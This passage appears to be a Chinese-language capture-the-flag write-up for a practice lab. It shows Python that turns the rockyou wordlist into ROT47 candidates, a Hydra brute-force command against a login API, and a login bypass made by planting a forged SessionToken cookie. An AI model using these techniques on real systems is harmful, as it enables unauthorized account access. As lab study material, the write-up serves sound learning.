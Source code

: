 - 在 about 的部分有出現各開發者的名單
	- `Ninja`
	- `Pars`
	- `Szymex`
	- `Bee`
	- `MuirlandOracle`

- 我心裡的猜想
	- 它們之前的密碼是用 rockyou 的密碼，現在在推他們自己的密碼管理軟體，使用 ROT47 
	- 該不會......可以爆破 web 介面密碼，使用 ROT47 後的 rockyou 吧?
	- 所以寫了以下的 Code 來把 rockyou 轉 ROT47
```python
def rot47(s):
    x = []
    for i in range(len(s)):
        j = ord(s[i])
        if j >= 33 and j <= 126:
            x.append(chr(33 + ((j + 14) % 94)))
        else:
            x.append(s[i])
    return ''.join(x)

with open("/opt/rockyou.txt",'r',errors='ignore') as f:
    rockyou = f.read().split('\n')

rot47_rock = [rot47(i) for i in rockyou]

o = '\n'.join(rot47_rock)

with open('rot47rock.txt','w') as f:
    f.write(o)
```
- 結果 VM 的 Ram 2G 跑不動QQ，害我重開機加大 RAM
- 嘗試進行登入
	- 發現會對 `/api/login` 發一個 http post
		- ![](https://i.imgur.com/CBYHmAK.png)
	- 所以就把所有的使用者準備成一個 txt (每個人名換一行)
	- 使用 Hydra 進行爆破
		-  `hydra -L user_l.txt -P rot47rock.txt 10.10.214.180 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect credentials"`
	-  跑ㄌ很久也沒用沒用QQ

## 觀察登入程式碼
- 爆破畢竟是下下策，還是先觀察一下登入介面的原始碼有什麼東東
- 就發現了一個 login.js
	- http://10.10.214.180/login.js
	- 擷取重要的弱點
		- ```javascript
			if (statusOrCookie === "Incorrect credentials") {
				loginStatus.textContent = "Incorrect Credentials"
				passwordBox.value=""
			} else {
				Cookies.set("SessionToken",statusOrCookie)
				window.location = "/admin"
			}
		  ```
		- 跑到 elase 代表登入成功，會寫入一個餅乾
		 	- 餅乾名稱 : "SessionToken"
		 	- 餅乾值 : statusOrCookie
- 直接用 Firefox 新增一個餅乾
	- 名稱用  "SessionToken"， Value 亂寫
	- 然後就登進去了!!!
	- ![](https://i.imgur.com/BhLN5NG.png)
- 上面直接留了一串 Private Key，也寫說是給 james 的